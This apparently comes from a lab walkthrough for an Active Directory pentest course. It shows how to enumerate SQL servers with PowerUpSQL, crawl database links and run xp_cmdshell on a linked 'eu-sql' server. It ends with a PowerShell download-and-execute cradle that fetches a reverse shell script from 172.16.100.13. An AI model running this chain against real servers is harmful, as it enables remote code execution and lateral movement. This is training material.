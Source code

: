 # 🔗 Reverse shell on a SQL server by abusing database links

Let's start with enumerating SQL servers in the domain and if studentx has privileges to connect to any of them. We can use PowerUpSQL module for that. Run the below command from a PowerShell session started using Invisi-Shell:

```
Import-Module C:\AD\Tools\PowerUpSQL-master\PowerupSQL.psd1
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose
```

<figure><img src="../../.gitbook/assets/image (1167).png" alt=""><figcaption></figcaption></figure>

Now that we have those informations, we can use Get-SQLServerLinkCrawl for crawling the database links automatically:

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Verbose
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We can see We have sysadmin on eu-sql server!

<figure><img src="../../.gitbook/assets/image (1168).png" alt=""><figcaption></figcaption></figure>

If xp\_cmdshell is enabled (or RPC out is true - which is set to false in this case), it is possible to execute commands on eu-sql using linked databases. To avoid dealing with a large number of quotes and escapes, we can use the following command:

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'set username'"
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Let's try to execute a PowerShell download execute cradle to execute a PowerShell reverse shell on the eu-sql instance. Remember to start a listener:

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.13:9898/Invoke-PowerShellTcpEx.ps1'')"' -QueryTarget eu-sql
```

